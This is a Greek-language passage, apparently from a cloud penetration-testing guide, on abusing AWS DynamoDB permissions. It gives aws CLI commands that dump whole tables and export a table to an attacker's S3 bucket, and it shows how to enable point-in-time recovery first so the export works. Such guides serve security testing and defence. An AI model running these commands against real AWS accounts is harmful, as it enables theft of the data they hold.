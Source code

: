 **Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:Scan`

Μπορείτε να χρησιμοποιήσετε αυτήν την άδεια για να **εξάγετε εύκολα ολόκληρο τον πίνακα**.
```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```
**Πιθανές Επιπτώσεις:** Έμμεση ανύψωση δικαιωμάτων εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:PartiQLSelect`

Μπορείτε να χρησιμοποιήσετε αυτήν την άδεια για να **εξάγετε ολόκληρο τον πίνακα εύκολα**.
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
Αυτή η άδεια επιτρέπει επίσης την εκτέλεση `batch-execute-statement` όπως:
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
αλλά πρέπει να καθορίσετε το πρωτεύον κλειδί με μια τιμή, οπότε δεν είναι και τόσο χρήσιμο.

**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

Αυτή η άδεια θα επιτρέψει σε έναν επιτιθέμενο να **εξάγει ολόκληρο τον πίνακα σε ένα S3 bucket** της επιλογής του:
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
Σημειώστε ότι για να λειτουργήσει αυτό, ο πίνακας πρέπει να έχει ενεργοποιημένη την ανάκτηση σε συγκεκριμένο χρόνο, μπορείτε να ελέγξετε αν ο πίνακας το έχει με:
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
Αν δεν είναι ενεργοποιημένο, θα χρειαστεί να **το ενεργοποιήσετε** και για αυτό χρειάζεστε την **`dynamodb:ExportTableToPointInTime`** άδεια:
```bash
aws dynamodb update-continuous-backups \
--table-name <value> \
--point-in-time-recovery-specification PointInTimeRecoveryEnabled=true
```
**Πιθανές Επιπτώσεις:** Έμμεσος privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:CreateTable`, `dynamodb:RestoreTableFromBackup`, (`dynamodb:CreateBackup)`
